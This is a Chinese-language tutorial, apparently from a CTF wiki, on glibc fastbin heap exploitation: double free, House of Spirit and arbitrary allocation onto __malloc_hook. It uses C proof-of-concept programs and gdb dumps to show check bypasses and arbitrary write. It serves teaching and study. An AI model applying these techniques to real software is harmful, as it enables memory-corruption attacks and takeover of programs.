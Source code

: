..

fastbin attack
==============


介绍
----

fastbin
attack是一种(或多种)堆漏洞的利用方法，这种方法需要使用fastbin的特性，因此需要漏洞发生在属于fastbin的chunk中。
基于这一点我们可以知道这种利用的前提是：

-  存在堆溢出、use-after-free等能控制chunk内容的漏洞
-  漏洞发生于属于fastbin的chunk中

原理
----

fastbin
attack存在的原因在于fastbin是使用单链表来维护释放的堆块的，并且由fastbin管理的chunk即使被释放其next_chunk的pre_inuse位也不会被置为空。
我们实际的来看一下fastbin是怎样的管理被释放的chunk的。

::

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        chunk1=malloc(0x30);
        chunk2=malloc(0x30);
        chunk3=malloc(0x30);
        //进行释放
        free(chunk1);
        free(chunk2);
        free(chunk3);
        return 0;
    }

释放前

::

    0x602000:   0x0000000000000000  0x0000000000000041 <=== chunk1
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000041 <=== chunk2
    0x602050:   0x0000000000000000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000041 <=== chunk3
    0x602090:   0x0000000000000000  0x0000000000000000
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000000000
    0x6020c0:   0x0000000000000000  0x0000000000020f41 <=== top chunk

执行三个free进行释放后

::

    0x602000:   0x0000000000000000  0x0000000000000041 <=== chunk1
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000041 <=== chunk2
    0x602050:   0x0000000000602000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000041 <=== chunk3
    0x602090:   0x0000000000602040  0x0000000000000000
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000000000
    0x6020c0:   0x0000000000000000  0x0000000000020f41 <=== top chunk

此时位于main_arena中的fastbin链表中已经储存了指向chunk3的指针，并且chunk3、2、1构成了一个单链表

::

    Fastbins[idx=2, size=0x30,ptr=0x602080]
    ===>Chunk(fd=0x602040, size=0x40, flags=PREV_INUSE)
    ===>Chunk(fd=0x602000, size=0x40, flags=PREV_INUSE)
    ===>Chunk(fd=0x000000, size=0x40, flags=PREV_INUSE) 

我们可以使用如下的图片来表示这一点 |捕获.PNG-13.8kB|

分类
----

fastbin
attack是一个统称，意为所有基于fastbin的利用，如果细分可以做如下的分类：

-  fastbin double free
-  House of Spirit
-  arbitrary alloc

fastbin double free
-------------------

fastbin double
free是指一个属于fastbin的chunk可以多次被释放并多次的存在于fastbin链表中。这样导致的后果是多次分配可以从fastbin链表中取出同一个堆块，相当于多个指针指向同一个堆块，结合堆块的数据内容可以实现类似于类型混淆(type
confused)的效果。

演示
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

fastbin double
free之所以能够成功的实现有两部分的原因，一是属于fastbin的堆块被释放后next_chunk的pre_inuse位不会被清空，二是fastbin在执行free的时候仅验证了main_arena直接指向的块

::

    /* Another simple check: make sure the top of the bin is not the
           record we are going to add (i.e., double free).  */
        if (__builtin_expect (old == p, 0))
          {
            errstr = "double free or corruption (fasttop)";
            goto errout;
    }

下面的示例程序说明了这一点，当我们试图执行以下代码时

::

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        chunk1=malloc(0x10);
        chunk2=malloc(0x10);
        
        free(chunk1);
        free(chunk1);
        return 0;
    }

如果你执行这个程序，不出意外的话会得到如下的结果，这正是_int_free函数检测到了fastbin的double
free。

::

    *** Error in `./tst': double free or corruption (fasttop): 0x0000000002200010 ***
    ======= Backtrace: =========
    /lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7fbb7a36c7e5]
    /lib/x86_64-linux-gnu/libc.so.6(+0x8037a)[0x7fbb7a37537a]
    /lib/x86_64-linux-gnu/libc.so.6(cfree+0x4c)[0x7fbb7a37953c]
    ./tst[0x4005a2]
    /lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7fbb7a315830]
    ./tst[0x400499]
    ======= Memory map: ========
    00400000-00401000 r-xp 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00600000-00601000 r--p 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00601000-00602000 rw-p 00001000 08:01 1052570                            /home/Ox9A82/tst/tst
    02200000-02221000 rw-p 00000000 00:00 0                                  [heap]
    7fbb74000000-7fbb74021000 rw-p 00000000 00:00 0 
    7fbb74021000-7fbb78000000 ---p 00000000 00:00 0 
    7fbb7a0df000-7fbb7a0f5000 r-xp 00000000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fbb7a0f5000-7fbb7a2f4000 ---p 00016000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fbb7a2f4000-7fbb7a2f5000 rw-p 00015000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fbb7a2f5000-7fbb7a4b5000 r-xp 00000000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a4b5000-7fbb7a6b5000 ---p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a6b5000-7fbb7a6b9000 r--p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a6b9000-7fbb7a6bb000 rw-p 001c4000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a6bb000-7fbb7a6bf000 rw-p 00000000 00:00 0 
    7fbb7a6bf000-7fbb7a6e5000 r-xp 00000000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7fbb7a8c7000-7fbb7a8ca000 rw-p 00000000 00:00 0 
    7fbb7a8e1000-7fbb7a8e4000 rw-p 00000000 00:00 0 
    7fbb7a8e4000-7fbb7a8e5000 r--p 00025000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7fbb7a8e5000-7fbb7a8e6000 rw-p 00026000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7fbb7a8e6000-7fbb7a8e7000 rw-p 00000000 00:00 0 
    7ffcd2f93000-7ffcd2fb4000 rw-p 00000000 00:00 0                          [stack]
    7ffcd2fc8000-7ffcd2fca000 r--p 00000000 00:00 0                          [vvar]
    7ffcd2fca000-7ffcd2fcc000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
    已放弃 (核心已转储)

如果我们在chunk1释放后，再释放chunk2，这样main_arena就指向chunk2而不是chunk1了，此时我们再去释放chunk1就不再会被检测到。

::

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        chunk1=malloc(0x10);
        chunk2=malloc(0x10);
        
        free(chunk1);
        free(chunk2);
        free(chunk1);
        return 0;
    }

第一次释放 ``free(chunk1)``  |捕获.PNG-3kB|
第二次释放 ``free(chunk2)``  |捕获.PNG-3.4kB|
第三次释放 ``free(chunk1)``  |捕获.PNG-5.8kB|
注意因为chunk1被再次释放因此其fd值不再为0而是指向chunk2，这时如果我们可以控制chunk1的内容，便可以写入其fd指针从而实现在我们想要的任意地址分配fastbin块。
下面这个示例演示了这一点，首先跟前面一样构造main_arena=>chunk1=>chun2=>chunk1的链表。之后第一次调用malloc返回chunk1之后修改chunk1的fd指针指向bss段上的bss_chunk，之后我们可以看到fastbin会把堆块分配到这里。

::

    typedef struct _chunk
    {
        long long pre_size;
        long long size;
        long long fd;
        long long bk;  
    } CHUNK,*PCHUNK;

    CHUNK bss_chunk;

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        void *chunk_a,*chunk_b;
        
        bss_chunk.size=0x21;
        chunk1=malloc(0x10);
        chunk2=malloc(0x10);
        
        free(chunk1);
        free(chunk2);
        free(chunk1);
        
        chunk_a=malloc(0x10);
        *(long long *)chunk_a=&bss_chunk;
        malloc(0x10);
        malloc(0x10);
        chunk_b=malloc(0x10);
        printf("%p",chunk_b);
        return 0;
    }

在我的系统上chunk_b输出的值会是0x601090，这个值位于bss段中正是我们之前设置的 ``CHUNK bss_chunk``

::

    Start              End                Offset             Perm Path
    0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
    0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
    0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
    0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]

    0x601080 <bss_chunk>:   0x0000000000000000  0x0000000000000021
    0x601090 <bss_chunk+16>:0x0000000000000000  0x0000000000000000
    0x6010a0:               0x0000000000000000  0x0000000000000000
    0x6010b0:               0x0000000000000000  0x0000000000000000
    0x6010c0:               0x0000000000000000  0x0000000000000000

值得注意的是我们在main函数的第一步就进行了 ``bss_chunk.size=0x21;`` 的操作，这是因为_int_malloc会对欲分配位置的size域进行验证，如果其size与当前fastbin链表应有size不符就会抛出异常。

::

    *** Error in `./tst': malloc(): memory corruption (fast): 0x0000000000601090 ***
    ======= Backtrace: =========
    /lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7f8f9deb27e5]
    /lib/x86_64-linux-gnu/libc.so.6(+0x82651)[0x7f8f9debd651]
    /lib/x86_64-linux-gnu/libc.so.6(__libc_malloc+0x54)[0x7f8f9debf184]
    ./tst[0x400636]
    /lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7f8f9de5b830]
    ./tst[0x4004e9]
    ======= Memory map: ========
    00400000-00401000 r-xp 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00600000-00601000 r--p 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00601000-00602000 rw-p 00001000 08:01 1052570                            /home/Ox9A82/tst/tst
    00bc4000-00be5000 rw-p 00000000 00:00 0                                  [heap]
    7f8f98000000-7f8f98021000 rw-p 00000000 00:00 0 
    7f8f98021000-7f8f9c000000 ---p 00000000 00:00 0 
    7f8f9dc25000-7f8f9dc3b000 r-xp 00000000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7f8f9dc3b000-7f8f9de3a000 ---p 00016000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7f8f9de3a000-7f8f9de3b000 rw-p 00015000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7f8f9de3b000-7f8f9dffb000 r-xp 00000000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9dffb000-7f8f9e1fb000 ---p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9e1fb000-7f8f9e1ff000 r--p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9e1ff000-7f8f9e201000 rw-p 001c4000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9e201000-7f8f9e205000 rw-p 00000000 00:00 0 
    7f8f9e205000-7f8f9e22b000 r-xp 00000000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7f8f9e40d000-7f8f9e410000 rw-p 00000000 00:00 0 
    7f8f9e427000-7f8f9e42a000 rw-p 00000000 00:00 0 
    7f8f9e42a000-7f8f9e42b000 r--p 00025000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7f8f9e42b000-7f8f9e42c000 rw-p 00026000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7f8f9e42c000-7f8f9e42d000 rw-p 00000000 00:00 0 
    7fff71a94000-7fff71ab5000 rw-p 00000000 00:00 0                          [stack]
    7fff71bd9000-7fff71bdb000 r--p 00000000 00:00 0                          [vvar]
    7fff71bdb000-7fff71bdd000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
    已放弃 (核心已转储)

_int_malloc中的校验如下

::

    if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
        {
          errstr = "malloc(): memory corruption (fast)";
        errout:
          malloc_printerr (check_action, errstr, chunk2mem (victim));
          return NULL;
    }

小总结
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

通过fastbin double
free我们可以使用多个指针控制同一个堆块，这可以用于篡改一些堆块中的关键数据域或者是实现类似于类型混淆的效果。
如果是更进一步的修改fd指针，则能够实现任意地址分配堆块的效果(首先要通过验证)，这就相当于任意地址写任意值的效果。

House of Spirit
---------------

House of Spirit是House of XX的一种,House of
XX是2004年左右发出来的一篇关于Linux堆利用的技术文章中提出一系列利用方法。
对HOS的描述是可以使得fastbin堆块分配到栈中，从而实现控制栈中的一些关键数据，比如返回地址等。
如果你已经理解了前文所讲的fastbin double
free，那么相信你理解HOS就已经不成问题了，其实它们的本质都在于fastbin链表是使用当前chunk的fd指针指向下一个chunk构成的。
HOS的核心同样在于劫持fastbin链表中chunk的fd指针，把fd指针指向我们想要分配的栈上，实现控制栈中数据。

演示
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

这次我们把fake_chunk置于栈中称为stack_chunk，同时劫持了fastbin链表中chunk的fd值，通过把这个fd值指向stack_chunk就可以实现在栈中分配fastbin
chunk。

::

    typedef struct _chunk
    {
        long long pre_size;
        long long size;
        long long fd;
        long long bk;  
    } CHUNK,*PCHUNK;

    int main(void)
    {
        CHUNK stack_chunk;
        
        void *chunk1;
        void *chunk_a;
        
        stack_chunk.size=0x21;
        chunk1=malloc(0x10);
        
        free(chunk1);
        
        *(long long *)chunk1=&stack_chunk;
        malloc(0x10);
        chunk_a=malloc(0x10);
        return 0;
    }

通过gdb调试可以看到我们首先把chunk1的fd指针指向了stack_chunk

::

    0x602000:   0x0000000000000000  0x0000000000000021 <=== chunk1
    0x602010:   0x00007fffffffde60  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000020fe1 <=== top chunk

之后第一次malloc使得fastbin链表指向了stack_chunk，这意味着下一次分配会使用stack_chunk的内存进行

::

    0x7ffff7dd1b20 <main_arena>:    0x0000000000000000 <=== unsorted bin
    0x7ffff7dd1b28 <main_arena+8>:  0x00007fffffffde60 <=== fastbin[0]
    0x7ffff7dd1b30 <main_arena+16>: 0x0000000000000000  

最终第二次malloc返回值为0x00007fffffffde70也就是stack_chunk

::

       0x400629 <main+83>        call   0x4004c0 <malloc@plt>
     → 0x40062e <main+88>        mov    QWORD PTR [rbp-0x38], rax
       $rax   : 0x00007fffffffde70
       
    0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
    0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
    0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
    0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
    0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw- 
    0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw- 
    0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw- 
    0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
    0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
    0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
    0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
    0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]

小总结
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

通过HOS我们可以把fastbin chunk分配到栈中，从而控制返回地址等关键数据。
要实现这一点我们需要劫持fastbin中chunk的fd域，把它指到栈上，当然同时需要栈上存在有满足条件的size值。

arbitrary alloc
---------------

arbitrary alloc其实与House of
Spirit是完全相同的，唯一的区别是分配的目标不再是栈中。
事实上只要满足目标地址存在合法的size域，我们可以把chunk分配到任意的可写内存中，比如bss、heap、data、stack等等。

演示
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

有些同学可能会认为HOS与arbitrary
alloc没有什么区别因此没有必要分为两类，这里我们使用如下的这个例子来说明这种利用手法与HOS的意义是不同的。
这个例子是使用字节错位来实现直接分配fastbin到__malloc_hook的位置，相当于直接写入__malloc_hook来控制程序流程。

::

    int main(void)
    {
        
        
        void *chunk1;
        void *chunk_a;
        
        chunk1=malloc(0x60);
        
        free(chunk1);
        
        *(long long *)chunk1=0x7ffff7dd1b05;
        malloc(0x60);
        chunk_a=malloc(0x60);
        return 0;
    }

这里的0x7ffff7dd1b05是我根据本机的情况得出的值，这个值是怎么获得的呢？首先我们要观察欲写入地址附近是否存在可以字节错位的情况

::

    0x7ffff7dd1a88 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1a90 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1a98 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1aa0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1aa8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ab0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ab8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ac0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ac8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ad0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ad8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ae0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ae8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1af0 0x60 0x2 0xdd 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1af8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1b00 0x20 0x2e 0xa9 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1b08 0x0  0x2a 0xa9 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1b10 <__malloc_hook>: 0x30    0x28    0xa9    0xf7    0xff    0x7f    0x0 0x0

0x7ffff7dd1b10是我们想要控制的__malloc_hook的内容，于是我们向上寻找是否可以错位出一个合法的size域。因为我们是在64位系统下进行的调试，因此fastbin的范围为32字节到128字节(0x20-0x80),如下：

::

    //这里的size指用户区域，因此要小2倍字长
    Fastbins[idx=0, size=0x10] 
    Fastbins[idx=1, size=0x20] 
    Fastbins[idx=2, size=0x30] 
    Fastbins[idx=3, size=0x40] 
    Fastbins[idx=4, size=0x50] 
    Fastbins[idx=5, size=0x60] 
    Fastbins[idx=6, size=0x70] 

通过观察发现0x7ffff7dd1af5处可以现实错位构造出一个0x000000000000007f

::

    0x7ffff7dd1af0 0x60 0x2 0xdd 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1af8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0

    0x7ffff7dd1af5 <_IO_wide_data_0+309>:   0x000000000000007f

因为0x7f是属于0x70的，而其大小又包含了0x10的chunk_header因此我们选择分配0x60的fastbin，将其加入链表。
最后经过两次分配可以观察到chunk被分配到0x00007ffff7dd1b15，因此我们就可以直接控制__malloc_hook的内容。

::

    0x4005a8 <main+66>        call   0x400450 <malloc@plt>
     →   0x4005ad <main+71>        mov    QWORD PTR [rbp-0x8], rax
     
     $rax   : 0x00007ffff7dd1b15 
     
    0x7ffff7dd1b05 <__memalign_hook+5>: 0xfff7a92a0000007f  0x000000000000007f
    0x7ffff7dd1b15 <__malloc_hook+5>:   0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b25 <main_arena+5>:  0x0000000000000000  0x0000000000000000
    0x7ffff7dd1b35 <main_arena+21>: 0x0000000000000000  0x0000000000000000

小总结
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

虽然arbitrary alloc与HOS的原理是相同的，但是arbitrary
alloc在CTF中要比HOS更常出现也更加使用。
我们可以利用字节错位等方法来绕过size域的检验，实现任意地址分配chunk，最后的效果也就相当于任意地址写任意值。

.. |捕获.PNG-13.8kB| image:: http://static.zybuluo.com/vbty/e8k7kq9w9a0fzm0qxfpzwpw5/%E6%8D%95%E8%8E%B7.PNG
.. |捕获.PNG-3kB| image:: http://static.zybuluo.com/vbty/48ue5xatzz40sif5qnqu8syz/%E6%8D%95%E8%8E%B7.PNG
.. |捕获.PNG-3.4kB| image:: http://static.zybuluo.com/vbty/0101jwbohr0r8sjha5yvxuu6/%E6%8D%95%E8%8E%B7.PNG
.. |捕获.PNG-5.8kB| image:: http://static.zybuluo.com/vbty/ggyvxt73jujf9qlcnm429khb/%E6%8D%95%E8%8E%B7.PNG
